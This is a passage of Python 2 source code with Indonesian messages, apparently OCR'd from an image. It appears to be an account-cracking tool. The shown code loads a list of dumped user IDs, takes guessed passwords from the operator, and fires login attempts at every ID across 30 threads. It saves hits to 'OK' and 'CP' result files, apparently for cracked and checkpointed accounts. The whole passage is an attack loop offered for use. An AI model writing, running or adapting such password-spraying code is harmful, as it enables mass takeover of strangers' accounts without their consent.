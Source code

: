             self.id = open(self.apk).read().splitlines()

            print '\n [%s+%s] total id -> %s%s%s' %(O,N,M,len(self.id),N)

        except:

            print '\n %s[%s×%s] File [%s%s%s] tidak ada, dump id dulu bro cek nomor 1 sampai 4'%(N,M,N,M,self.apk,N);time.sleep(3)

            raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()

        ___yayanganteng___ = raw_input(' [%s?%s] apakah anda ingin menggunakan kata sandi manual? [Y/t]: '%(O,N))

        if ___yayanganteng___ in ('Y', 'y'):

            print '\n %s[%s!%s] gunakan , (koma) untuk pemisah contoh : sandi123,sandi12345,dll. setiap kata minimal 6 karakter atau lebih'%(N,M,N)

            while True:

                pwek = raw_input('\n [%s?%s] masukan kata sandi : '%(O,N))

                print ' [*] crack dengan sandi -> [ %s%s%s ]' % (M, pwek, N)

                if pwek == '':

                    print '\n %s[%s×%s] jangan kosong bro kata sandi nya'%(N,M,N)

                elif len(pwek)<=5:

                    print '\n %s[%s×%s] kata sandi minimal 6 karakter'%(N,M,N)

                else:

                    def __yan__(ysc=None): # ycs => Yayan sayang Cindy:3

                        cin = raw_input('\n [*] method : ')

                        if cin == '':

                            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);__yan__()()

                        elif cin == '1':

                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__api__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)
